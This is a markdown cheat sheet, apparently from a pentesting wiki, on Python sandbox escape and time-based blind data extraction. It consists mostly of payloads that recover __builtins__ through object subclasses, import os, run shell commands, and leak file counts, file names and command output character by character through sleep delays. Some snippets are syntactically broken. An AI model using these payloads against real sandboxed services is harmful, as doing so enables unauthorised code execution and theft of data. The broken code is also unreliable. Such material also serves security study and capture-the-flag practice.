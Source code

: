 # Time Based Guessing Attack

## Python Time commands

* Ref : [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes\#executing-python-code](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#executing-python-code)

```text
# time.sleep
{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__["__import__"]("time").sleep(100)

# You can also multiline the above command
i={}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
i('time').sleep(3)

# hex encode of some special chars of the above command (multiline)
i={}\x2e\x5f\x5fclass\x5f\x5f\x2e\x5f\x5fbase\x5f\x5f\x2e\x5f\x5fsubclasses\x5f\x5f\x28)\x5b59]\x28)\x2e\x5fmodule\x2e\x5f\x5fbuiltins\x5f\x5f\x5b'\x5f\x5fimport\x5f\x5f']\ni\x28'time')\x2esleep\x283)

# Command for system.sleep(100)
{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('sleep 3')

```

## Restore builtins and execute time based python command \(no limit on characters\)

* [https://github.com/nEcr0tik/htb/tree/master/mine-scripts/Python\_Sandbox/Python2](https://github.com/nEcr0tik/htb/tree/master/mine-scripts/Python_Sandbox/Python2)

```text

# Restore builtin
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__["__import__"]('os').system('ls')



### To execute + read output

# Print all available function in __builtins__
print(__builtins__)

# len()
size = __builtins__['len']('String len is 16')

# import os; os.popen('ls').read()
lsfiles = __builtins__['__import__']('os').popen('ls').read()

# python2 print current working directory os.getcwd()
cdir = lfiles = __builtins__['__import__']('os').getcwd()

# GUESS : Number of files in current directory < 30
for n in range(0,30):                                                  # This will be on attacker side
    print(" If program paused now, then number of files is : "+str(n)) # This will be on attacker side
    if __builtins__['__import__']('os').listdir(cdir).__len__()==n:
        __builtins__['__import__']('time').sleep(20)

# GUESS : Length of each file name, say ndir=4
ndir=4
for file_index in range(0,ndir):
    for n in range(0,30):
        print("If program paused now, then " + file_index + "file name len() is : " + n)
        __builtins__['__import__']('os').listdir(cdir)[file_index]==n:
            __builtins__['__import__']('time').sleep(20)


# GUESS : File names len<20 given path and number of files
import string                                                # This will be on attacker side
char_set = string.ascii_letters + '0123456789' + '/-\n'      # This will be on attacker side
flag = 0
for file_index in range(0,ndir):                             # This will be on attacker side
    flag = 0
    for char_index in range(0,20):                           # This will be on attacker side
        for ele in char_set:                                 # This will be on attacker side
            if __builtins__['__import__']('os').listdir(cdir)[file_index][char_index]==ele:
                # __builtins__['__import__']('time').sleep(20)                                 # Real command
                print(str(file_index) + "file name is : " + ele + "\n")                             # For simplicity of this.
                if(ele == '\n'):
                    flag=1
                    break
        if (flag ==1):
            break


```

![Number of files in current working directory](../../../.gitbook/assets/image%20%28154%29.png)

```text
# Get present working directory
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').getcwd()

# Execute ls
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
```

## Restore builtins and execute time based python command \(characters limited to 300\)

```text
# Commands lists

# Skeleton command for below response, always check output on local machine first.
i=().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os')
if i.popen('pwd| wc -l').read()[char_index]=='ele': i.system('sleep 20')


# GUESS current working directory
i=().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os')
if i.popen('pwd').read()[char_index]=='ele': i.system('sleep 20')

# GUESS Get length of output of returned os commad = 'uname'
# note 'n' is a string not int, as output of command is string
i=().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os')
if i.popen('uname').read()[:-1]=='n': i.system('sleep 20')

# GUESS file names in current working directory

```

